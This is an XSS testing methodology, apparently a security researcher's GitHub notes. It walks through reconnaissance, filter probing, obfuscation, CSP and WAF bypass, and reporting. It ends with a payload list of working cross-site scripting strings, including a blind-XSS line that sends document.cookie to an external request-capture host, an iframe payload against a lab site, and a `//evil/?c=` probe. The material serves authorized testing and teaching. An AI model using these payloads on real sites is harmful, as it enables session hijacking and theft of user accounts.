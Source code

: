 # XSS Methodology

## 1. Reconnaissance & Discovery

- Identify the tech stack and security mechanisms
- Enumerate all endpoints, parameters, and user inputs
- Map all input vectors:
    - URL parameters
    - Form fields
    - HTTP headers (User-Agent, Referer, Cookie)
    - File uploads
    - JSON/XML data in requests
- Inspect element & view-source
    - Look for input fields
    - Attributes like id= and name=
- Check for CSP and other security headers
- Use a specific tracking keyword in requests to identify reflections
- Filter Burp traffic with this keyword to identify reflections

## 2. Context Analysis

- Determine where and how inputs are reflected or stored
- Identify the specific context of each reflection:
    - HTML body context
    - HTML attribute context
    - JavaScript context
    - CSS context
    - URL context
- Analyze any encoding or transformation applied to input
- Document where user input appears in the DOM
- Trace data flow from source to sink in DOM-based scenarios

## 3. Filter & Protection Testing

- Test basic payloads to understand sanitization mechanisms
- Compare handling of benign tags `<h2>` vs potentially dangerous tags `<script>`
- Test tag completion behavior with fragments like `<script src=//evil/?c=`
- Try trailing slashes: `</script/x>` to potentially break filters
- Test nested tags: `<<h2>>` (may strip outer tags leaving `<h2>`)
- Check for case sensitivity: `<IFRAME>` vs `<iframe>`
- Probe for event handler filtering with non-standard handlers: `"onxss=`
- Try non-existent tags: `<notreal onpointerrawupdate=alert(0)>`
- Document filter behavior and any bypass techniques discovered

## 4. Payload Crafting

- Create context-specific payloads based on your analysis
- Develop custom payloads for identified filter bypasses
- Prepare obfuscation techniques:
    - HTML encoding
    - JavaScript encoding
    - URL encoding
    - Mixed encoding
    - Unicode/alternative representations
- Create polyglot payloads for multi-context testing
- Develop different payload categories:
    - Basic proof-of-concept (`alert()`, `console.log()`)
    - Session theft payloads
    - Keyloggers
    - CSRF token extractors

## 5. Execution Testing

- Test payloads systematically across all identified input points
- For reflected XSS: verify immediate execution in response
- For stored XSS: confirm persistence across sessions/users
- For DOM-based XSS: trace execution flow through JavaScript
- Implement blind XSS testing:
    - Include callbacks to external servers
    - Test in admin panels or restricted areas
    - Use frameworks like XSSHunter or custom callback servers
- Document successful execution paths

## 6. Cross-Browser Verification

- Test successful payloads across multiple browsers:
    - Chrome
    - Firefox
    - Safari
    - Edge
- Document browser-specific behaviors or quirks
- Identify payloads that work universally vs. browser-specific ones
- Test mobile browsers if relevant to the application

## 7. Impact & Exploitation Assessment

- Document the complete attack chain from injection to execution
- Assess the potential impact:
    - Session hijacking
    - Account takeover
    - Data exfiltration
    - Privilege escalation
- Create proof-of-concept demonstrations for reporting
- Consider the user roles affected and data exposure risks
- Document any chaining opportunities with other vulnerabilities

## 8. Bypass Advanced Protections

- Test against WAF/advanced filter evasion:
    - Mutation techniques
    - Alternative execution methods (eval alternatives)
    - JavaScript prototype pollution
    - Template injection if applicable
- Attempt to bypass Content Security Policy:
    - Look for misconfigurations
    - Script gadgets
    - JSONP endpoints
    - Angular/Vue/React-specific bypasses
- Document successful advanced bypass techniques

## 9. Reporting & Documentation

- Create clear reproduction steps
- Include screenshots and proof-of-concept code
- Suggest appropriate remediation strategies
- Categorize severity based on impact and exploitability
- Document potential for vulnerability chaining


## Payload

```html
<!-- Basic -->
<script>alert(0)</script>

<!-- img -->
<img src=x onerror=print()>

<!-- href attribute -->
href="javascript:alert(1)"

<!-- autofocus -->
x" onfocus=alert(1) autofocus tabindex=1>

<!-- onmouseover -->
"onmouseover="alert(1)

<!-- blind xss -->
><script>document.location='https://enp0qp6rqroqc.x.pipedream.net?c='+document.cookie</script>

<!-- iframe -->
<iframe src="https://0a9800c3034ba0e181fafc8700b00051.web-security-academy.net/#" onload=this.src+="%3Cimg%20src=x%20onerror=print()%3E"></iframe>
```

## Links
[requestBin](https://public.requestbin.com) <br>
[Ghetto XSS Cheatsheet](https://d3adend.org/xss/ghettoBypass)